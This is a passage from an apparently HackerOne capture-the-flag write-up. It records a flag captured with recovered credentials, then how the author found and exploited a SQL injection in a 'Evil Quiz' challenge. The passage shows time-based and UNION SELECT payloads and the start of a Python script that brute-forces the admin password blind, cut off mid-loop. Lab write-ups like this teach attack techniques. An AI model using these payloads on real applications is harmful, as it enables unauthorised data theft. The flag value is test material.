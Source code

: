 At this point I could log in to the forum with `grinch:BahHumbug` and view an admin-only post containing the flag.

{F1134521}

Flag: `flag{677db3a0-f9e9-4e7e-9ad7-a9f23e47db8b}`

## Flag 9: Evil Quiz

Filling out the quiz with some random answers to get a feel for the process resulted in the following page being shown:

{F1134519}

The message about the number of players with the same name was quite revealing here. It told me that the quiz was *stateful*. It remembered the names of all players that filled it out. This meant there was likely a database backing this application. I immediately started thinking along the lines of a potential SQL injection vulnerability.

I went back to the beginning and set the `name` field to `' OR sleep(5)='`. Proceeding into the rest of the quiz resulted in 5 second delays, meaning an SQL injection vulnerability was indeed present. The final page included the message `There is 1195892 other player(s) with the same name as you!` which suggests my attack was at least working on the query to calculate the number of players with a similar name.

I started the process of working out what tables/columns existed and what data I could exfiltrate.

First of all I worked out the number of columns being returned in the query by trying the following:

| Name                             | # of players |
|----------------------------------|--------------|
| `Jfjrir' union select 1;/*`         | 0            |
| `Jfjrir' union select 1,2;/*`       | 0            |
| `Jfjrir' union select 1,2,3;/*`     | 0            |
| `Jfjrir' union select 1,2,3,4;/*`   | 1            |

4 columns then! Normally at this point I'd start pulling data from `information_schema.tables`, but before resorting to this I tested to see if I could guess the names of some existing tables. I got lucky and ` Jfjrir' union select 1,2,3,4 from admin;/*` returned a single row (player).

After tweaking the query a few times I figured out that a user with the `username` of `admin` existed in the table - at this point I started writing a script to pull out the `admin` password:

```python
#!/usr/bin/env python3
import requests

url='https://hackyholidays.h1ctf.com/evil-quiz'
cookies={'session': '4fbc0cc824c9ee373d677e1840288aaf'}
alphabet = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890-=!"£$%^&*()_+[];#,./{}:@~<>?'

def attack(password):
    index=len(password)+1
    for letter in alphabet:
        data={'name': "Jfjrir' union select 1,2,3,4 from admin where username ='admin' and ord(substr(password, %d, 1))='%d" % (index, ord(letter))}
        r = requests.post(url, cookies=cookies, data=data)
        r = requests.get(url + '/score', cookies=cookies)
        if 'There is 1 other' in r.text:
            return password + letter
    return password

password=''
while True:
```